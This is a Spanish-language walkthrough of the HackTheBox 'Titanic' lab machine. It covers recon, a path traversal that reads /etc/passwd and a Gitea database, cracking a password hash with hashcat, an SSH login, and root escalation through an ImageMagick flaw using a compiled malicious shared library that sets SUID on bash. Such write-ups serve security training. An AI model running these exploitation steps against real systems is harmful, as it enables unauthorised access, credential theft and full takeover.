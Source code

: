 # Tutorial de Titanic de HackTheBox en Español

![titanic](../../img/Titanic/Titanic.png)

Empezamos la máquina con un escaneo en nmap de todos los puertos por TCP.

```
nmap -sS 10.129.137.171 -n -Pn -p- --min-rate 3000

Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Están abiertos los puertos 22 (ssh) y 80 (http), vamos a intentar detectar las versiones de estos servicios, así como comprobar si efectivamente son estos los servicios en ejecución..

```
nmap -sVC -p 22,80 10.129.137.171

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://titanic.htb/
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Efectivamente tiene un servidor OpenSSH y un Apache, ninguna de las versiones parece vulnerable a priori. Ya que hay un servicio http corriendo en el puerto 80, vamos a lanzar un `whatweb` para detectar las tecnologías que están siendo utilizadas.

```
whatweb 10.129.137.171

http://10.129.137.171 [301 Moved Permanently] Apache[2.4.52], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.129.137.171], RedirectLocation[http://titanic.htb/], Title[301 Moved Permanently]
ERROR Opening: http://titanic.htb/ - no address for titanic.htb
```

Nos intenta redirigir a `http://titanic.htb`, vamos a incluirlo en el `/etc/hosts` para poder resolver.

```
echo "10.129.137.171  titanic.htb" >> /etc/hosts
```

Volvemos a lanzar el script:

```
whatweb titanic.htb

http://titanic.htb [200 OK] Bootstrap[4.5.2], Country[RESERVED][ZZ], HTML5, HTTPServer[Werkzeug/3.0.3 Python/3.10.12], IP[10.129.137.171], JQuery, Python[3.10.12], Script, Title[Titanic - Book Your Ship Trip], Werkzeug[3.0.3]
```

Tomamos nota de las tecnologías por si pueden ser útiles más adelante.

Ya hecho un reconocimiento básico, vamos a visitar el sitio web.

![web](../../img/Titanic/web.png)

Al probar los botones de la página, notamos que el único funcional es `Book Now`.

![book](../../img/Titanic/book.png)

Rellenamos el formulario que nos aparece con datos aleatorios.

![json](../../img/Titanic/json.png)

Al enviar el formulario, se descarga un archivo con la estructura `<random_string>.json`. Vamos a interceptar esta solicitud con burpsuite para ver que está pasando por detrás.

![burp](../../img/Titanic/burp.png)

Podemos ver cómo el servidor nos devuelve una cabecera `Location` que nos redirige a location con un parámetro `ticket=<file>`.

Ya que el parámetro `ticket` apunta a un archivo, vamos a intentar un **path traversal**.

```
curl "titanic.htb/download?ticket=../../../etc/passwd"

root:x:0:0:root:/root:/bin/bash
developer:x:1000:1000:developer:/home/developer:/bin/bash
...passwd file...
```

La explotación ha sido exitosa.

Vamos también a leer el archivo `/etc/hosts` en busca de algun subdominio al que apuntar.

```
curl "titanic.htb/download?ticket=../../../etc/hosts"

127.0.0.1 localhost titanic.htb dev.titanic.htb
...hosts file...
```

Tiene un subdominio `dev.titanic.htb`. Vamos a incluirlo en nuestro `/etc/hosts` y entrar en su sitio a través del navegador.

```
echo "10.129.137.171 dev.titanic.htb" >> /etc/hosts
```

Es un servicio `gitea`, una plataforma para gestionar proyectos con Git. Vamos a ver los repositorios que tienen alojados.

![dev](../../img/Titanic/dev.png)

En el repositorio `docker-config`, dentro del archivo `docker-compose.yml` de `Gitea` observamos un volumen que asocia el `/home/developer/data` con `/data` en el contenedor.

```
volumes:
    - /home/developer/gitea/data:/data
```

En la [documentación de gitea sobre docker](https://docs.gitea.com/installation/install-with-docker), encontramos una línea que dice:

```
Customization files described here should be placed in /data/gitea directory.
```

Por lo tanto, la base de datos debe de estar ahí. En [esta página de la documentación](https://docs.gitea.com/1.21/help/faq#where-does-gitea-store-what-file) encontramos el nombre por defecto del archivo de base de datos sqlite3.

Utilizaremos el path traversal descubierto previamente para descargar el archivo de la base de datos.

```
curl "titanic.htb/download?ticket=../../../home/developer/gitea/data/gitea/gitea.db" --output gitea.db
```

Accedemos con el cliente de sqlite:

```
sqlite3 gitea.db
```

Listamos las tablas:

```
.tables

...tables...
user
...tables...
```

La tabla `user` nos llama la atención.

Leyendo las columnas de `user` nos damos cuenta de que las contraseñas de los usuarios están hasheadas en el algoritmo `pbkdf2`. Para crackearlos, usaremos **hashcat**, y para convertir los hashes a un formato que hashcat pueda entender, utilizaremos una herramienta `gitea2hashcat.py` cuyo uso se explica detalladamente en [esta página](https://www.unix-ninja.com/p/cracking_giteas_pbkdf2_password_hashes).

```
select email,salt,passwd from user;

root@titanic.htb|2d149e5fbd1b20cf31db3e3c6a28fc9b|cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136
developer@titanic.htb|8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56
test@test.com|7fcf462c21bf4ca64d61976df790f169|8ee98d985f9fe735939f8c434866440513a1b2089510c15d3104c4bc2c72c00ebe43745886892128d6b51d1195f77bea651e
```

Vamos a intentar crackear la contraseña de `developer`.

```
./gitea2hashcat.py '8bf3e3452b78544f8bee9400d6936d34|e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56'

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

Iniciamos el crackeo con el diccionario `rockyou`.

```
hashcat -m 10900 hashes.txt rockyou.txt
```

Pocos instantes después, encontramos la contraseña.

```
hashcat -m 10900 hashes.txt rockyou.txt --show

sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

La contraseña de usuario `developer` en gitea es `25282528`. Vamos a ver si podemos conectarnos por `ssh` con esta misma credencial.

```
ssh developer@titanic.htb
developer@titanic.htb's password: 25282528
```

Hemos conseguido conectarnos como el usuario `developer`. Ya podemos leer la flag de usuario.

```
cd
cat user.txt
```

Buscando formas de escalar privilegios damos con el script `/opt/scripts/identify_images.sh`.

```
cat /opt/scripts/identify_images.sh

cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

Este script ejecuta `/usr/bin/magick` identify en cada imagen del directorio `/opt/app/static/assets/images/`. El problema es que tiene la versión de magick desactualizada y es vulnerable a la [esta brecha](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8).

Siguiendo las instrucciones del exploit, compilamos una librería maliciosa en el mismo directorio donde están las imágenes que van a ser analizadas. Ejecutamos `chmod +s /usr/bin/bash` para otorgar privilegios **SUID** a **Bash** y poder escalar a `root` sin necesidad de una contraseña.

```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod +s /usr/bin/bash");
    exit(0);
}
EOF
```

Asumiendo que el script se ejecuta periódicamente como `root`, esperamos unos segundos hasta poder ejecutar **Bash** con privilegios **SUID**.

```
bash -p
whoami

root
```

Una vez como `root` ya podemos leer la flag de este. Así completamos la máquina `Titanic`.

```
cd
cat root.txt
```

Tras acabar la máquina no olvides eliminar la línea del `/etc/hosts` correspondiente a la máquina para evitar que se acumulen líneas con cada máquina que hagas.

Si te ha parecido útil, considera dejar una estrella al proyecto. Gracias y mucha suerte en tus próximas máquinas ❤️.